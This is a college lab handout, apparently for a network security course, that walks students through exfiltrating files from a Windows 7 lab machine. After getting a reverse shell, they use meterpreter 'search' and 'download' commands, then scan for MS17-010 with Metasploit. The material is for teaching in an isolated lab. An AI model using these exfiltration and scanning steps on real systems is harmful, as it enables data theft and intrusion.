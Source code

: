 ```yaml
---
layout: editorial
---
```


# Data Exfiltration

## Discussion

Data exfiltration is particularly problematic because the amount of data that can be obtained could be significant. There have been attacks where Terabytes of data had been stolen and it was never detected until the organization was contacted by law enforcement or the data was publicly exposed. As you perform the attack in this lab, think of it happening to a medical facility where you and your family receive treatment, to Champlain College, or a bank. Think of the types of information you’ve provided to your hospital, Dr’s office, Champlain, or a bank.

## Preparation

* Ensure your firewall, Windows 7, and Kali system are on.
* Kali must be on the NETSEC-WAN segment
* Switch to your WIndows 7 system.and open Internet Explorer (Start menu and type “iexplore”)
* Browse to Google and search for Google Chrome.
* Download Google Chrome and install it.
* Open Google Chrome and browse to the URL: https://tinyurl.com/5y2e8xxe
* Download the zip file:
* Extract the files to the “Documents” folder for ‘joker.’

## Start the Attack

**Work individually or with your partner.**

Login to your Kali system and perform the attack to [obtain a reverse shell on Windows 7.](https://docs.google.com/document/u/0/d/1H-UP20kA2V46aPtNbcMP4iHkW8g5\_876y2nYlzmh-0w/edit)

**NOTE: You should already have the WinSCP file in your Downloads folder, so you only need to start the listener on Kali and once it is running, execute the WinSCP program.**

At the meterpreter prompt, type:

search -f \*.docx

The command searches for files ending with \*.docx. Wait to see if there are any results. If not, search for \*.xlsx files

Note the output of files. To exfil those files use the “Download” command.

download ‘PATH\_TO\_FILE’

You have to add the single quotes around the file name. Download each of the files to your Kali workstation.

Type the command “ls” on your Kali workstation to show the files were downloaded. Annotate the files highlighted.

NOTE: If obtaining those xlsx files was the attackers goal, the attack is over that quick.

**Submission: Take a screenshot of the files that were exfiltrated.**

**Complete the MRCI Lab under “Security Tools:” Use Metasploit To Identify A Machine Vulnerable To MS17-010**

Note that it mentions using the “auxiliary” module. Auxiliary modules within Metasploit are typically used for scanning or enumerating (finding information), but not to “exploit” a vulnerability. When you popped a shell on Windows XP, you used an “exploit” module. Accordingly, when you search for the MS17-010 module, then look for the ‘auxiliary’ modules. Try each one and be sure it meets the rubric for the lab. Use your mouse to highlight the expected text:

**Validation: You will see the message appear 'Host is LIKELY vulnerable to MS17-010!'**
